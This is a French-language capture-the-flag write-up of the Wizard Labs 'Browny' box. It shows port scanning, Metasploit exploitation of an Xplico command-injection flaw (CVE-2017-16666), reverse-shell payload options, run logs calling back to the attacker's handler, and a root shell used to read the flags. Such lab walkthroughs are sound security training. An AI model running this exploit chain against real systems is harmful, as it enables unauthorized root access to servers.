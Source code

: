 # Solution du CTF Browny de Wizard-Labs

Chocoooooo
----------

*Browny* est un CTF de la plateforme *Wizard Labs*. Cette box donnée à une difficulté très faible (1/10) est basée sur Linux.  

On peut lancer un masscan pour lister les ports en écoute :  

```plain
$ sudo masscan -i tun0 -p1-65535 --rate 100 10.1.1.17

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-23 14:32:37 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.1.1.17                                       
Discovered open port 9876/tcp on 10.1.1.17                                     
Discovered open port 30005/tcp on 10.1.1.17                                    
Discovered open port 30001/tcp on 10.1.1.17                                    
Discovered open port 22/tcp on 10.1.1.17                                       
Discovered open port 30004/tcp on 10.1.1.17                                    
Discovered open port 30003/tcp on 10.1.1.17                                    
Discovered open port 30002/tcp on 10.1.1.17
```

On peut ensuite récupérer cet output pour extraire la liste des ports et les rebalancer avec Nmap. La commande suite va formater cette liste de ports en les séparant avec des virgules :  

```bash
$ grep Disco output.txt | cut -d' ' -f4| cut -d/ -f1 |paste -d ',' -s
80,9876,30005,30001,22,30004,30003,30002
```

En fouillant sur le port 80 avec un dirbuster on ne découvre ni dossier ni script PHP :(  

En revanche le service en écoute sur le port 9876, anoncé par Nmap comme un *Apache Hadoop* est en réalité un [Xplico](https://www.xplico.org/) qui est une appli web pour l'analyse forensics réseau.  

On passe ainsi un fichier PCAP et on peut l'explorer via *Xplico*. J'avais déjà utilisé ce soft qui est assez agréable d'utilisation.  

Bien sûr ici on est principalement intéressés par les vulnérabilités du logiciel plutôt que ses fonctionnalités.  

Metasploit dispose d'un module d'attaque dont voici la description et les payloads possibles :  

```plain
Description:
  This module exploits command injection vulnerability. 
  Unauthenticated users can register a new account and then execute a 
  terminal command under the context of the root user. The specific 
  flaw exists within the Xplico, which listens on TCP port 9876 by 
  default.

Compatible Payloads
===================

   Name                     Disclosure Date  Rank    Check  Description
   ----                     ---------------  ----    -----  -----------
   cmd/unix/bind_awk                         normal  No     Unix Command Shell, Bind TCP (via AWK)
   cmd/unix/bind_netcat                      normal  No     Unix Command Shell, Bind TCP (via netcat)
   cmd/unix/generic                          normal  No     Unix Command, Generic Command Execution
   cmd/unix/reverse_awk                      normal  No     Unix Command Shell, Reverse TCP (via AWK)
   cmd/unix/reverse_netcat                   normal  No     Unix Command Shell, Reverse TCP (via netcat)
```

L'exploitation n'a pas été à la hauteur de nos espérances :  

```plain
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: metnhsrpiveb
[*] Password: igMHipqNbEwaFoBVDqYFPXXQbEkIBCZV
[*] Calculating em_key code of the user
[*] Activating user with em_key = 3ad86d0ada1f91ab6357ca774ad0c2bf
[-] Exploit aborted due to failure: unknown: Could not activated our user. Target may not be vulnerable.
[*] Exploit completed, but no session was created.
```

Il est temps de ce pencher plus sur les détails de la vulnérabilité pour déterminer ce qui cloche.  

[L'article original](https://pentest.blog/advisory-xplico-unauthenticated-remote-code-execution-cve-2017-16666/) traitant de la faille mentionne une variable qu'il faut plus ou moins deviner car elle correspond au temps Unix et est utilisée pour réussir l'exploitation.  

L'exploit utilise donc le temps qu'il croit être juste... en gros il faut que toute l'exploitation se fasse dans une fenêtre d'une seconde pour ne pas être embêté :p  

Du coup c'est principalement le manque de chance... bref on relance jusqu'à ce que...  

```plain
[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: svfzydcg
[*] Password: apywpCMpmUjHBHhHnHRzIAMuNJNggYWZ
[*] Calculating em_key code of the user
[*] Activating user with em_key = 2edb880cb905936ab894e54db23abe18
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 7
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 7
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[*] Exploit completed, but no session was created.
```

C'est mieux mais ça n'aboutit toujours pas. Il s'est avéré que l'upload des fichiers ne fonctionnait plus sur la machine pour une raison inconnue. Un reset de la machine plus tard :  

```plain
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: qvxtanwgruta
[*] Password: KjixXsyUFbhjRiBSITzWbDjciGBsJrOP
[*] Calculating em_key code of the user
[*] Activating user with em_key = 027c6641ad1e36ebddf3ee5cb384e6a7
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 5
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 5
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[*] Command shell session 1 opened (10.254.0.29:4444 -> 10.1.1.17:57091) at 2019-02-23 16:33:59 +0100

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/xplico/bin
cd /root
ls
root.txt
cat root.txt
02240138a64d38ed22526a4a0f1ea9a1
ls /home
granit
cd /home/granit
cat user.txt
c553f25184be6a0e81be6cfc000d5b20
```

CTF parfait pour le 4h.  


*Published May 21 2019 at 18 05*